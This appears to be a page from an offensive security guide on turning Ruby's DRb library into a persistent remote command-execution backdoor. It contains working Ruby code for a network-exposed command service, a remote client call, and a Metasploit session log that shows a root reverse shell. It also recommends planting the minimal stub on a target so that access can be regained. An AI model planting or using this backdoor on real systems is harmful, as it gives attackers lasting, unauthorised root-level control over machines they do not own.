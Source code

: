 # RCE as a Service

DRb allows Ruby programs to communicate with each other on the same machine or over a network. DRb uses remote method invocation \(RMI\) to pass commands and data between processes.

## RCE Service

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```

Note: It works on all OS platforms

The `drb` lib supports ACL to prevent/allow particular IP addresses. ex.

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```

## Client

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```

Or you can use a Metasploit module to get an elegant shell!

```bash
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
```

As you can see, even you loose the session you can connect again and again; it's a service, remember?

Note: For using a Metasploit module _only_, you don't need even the RShell class. You just need the following on the target side.

```ruby
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join
```

I recommend to use the first code in case Metasploit is not available.

**References**

* [Metasploit technical details](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/)
* [dRuby book](https://pragprog.com/book/sidruby/the-druby-book)

